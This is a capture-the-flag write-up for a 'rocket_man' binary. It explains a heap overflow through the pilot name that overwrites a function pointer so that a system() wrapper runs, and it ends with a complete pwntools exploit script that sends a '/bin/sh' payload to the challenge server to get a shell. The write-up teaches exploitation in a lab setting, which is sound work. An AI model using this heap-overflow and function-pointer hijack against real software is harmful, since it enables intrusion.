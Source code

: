 ```c
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  system(a1);
  return __readfsqword(0x28u) ^ v2;
}
```

As you can see, in the main function, we are given with a very nice menu to initialize our **ROCKET** and **LICENSE** as well as rename our **PILOT** and **ROCKET**. At the end of the program if we _launch the rocket_, it calls a function directly from a function pointer as u can see at **(1)**.

If we look inside these functions, we notice that these **PILOT_NAME** and **ROCKET_NAME** variable are actually `malloc`'ed and are stored in the heap.

On initializing **rocket_name**, it will place a pointer to the **blastoff** function relative to the chunk storing the rocket_name which is used to call **blastoff** with an argument from **LICENSE+4** at the end of the program as you can see at **(3)**.

As for our **pilot_name**, we notice that it is actually vulnerable to buffer overflow because there is no size of input specified in the format string as you can see at **(2)**.

Lastly, we notice theres a function called **for_internal_use_only** which basically takes in an argument and runs it as a command using the **system** function. This could be useful to give us a shell if we are somehow able to run the function.

# Exploitation Walkthrough

Essentially, if we are able to use our buffer overflow in the **pilot_name** to overwrite the function pointer to **blastoff** and change it to **for_internal_use_only** we can probably run a system command to get shell.

This means that we have to obtain our pilot license before we order the rocket so that the LICENSE will be allocated first and when we overflow LICENSE, we will be able to write into the chunk allocated for the rocket name and hence overwrite the function pointer. 

1. Obtain Pilot License
2. Order Rocket
3. Edit Pilot Name to overflow into rocket and overwrite function pointer
4. Blast off! (and get shell)

## Exploit Script

```python
# coding: utf-8
from pwn import *

context.binary = elf = ELF('./rocket_man')
# p = process('./rocket_man')
p = remote('challenges1.whitehacks.xyz', 53901)


p.sendline("2") # obtain pilot license
p.sendline("1") # placeholder pilot name
p.sendline("1") # order rocket
p.sendline("2") # modify pilot name

# overflow function pointer and parse /bin/sh as argument
p.sendline(b"/bin/sh;" + b"B"*132 + p64(elf.sym.for_internal_use_only))

# run internal_use_only and get shell
p.sendline("3")

p.interactive()

```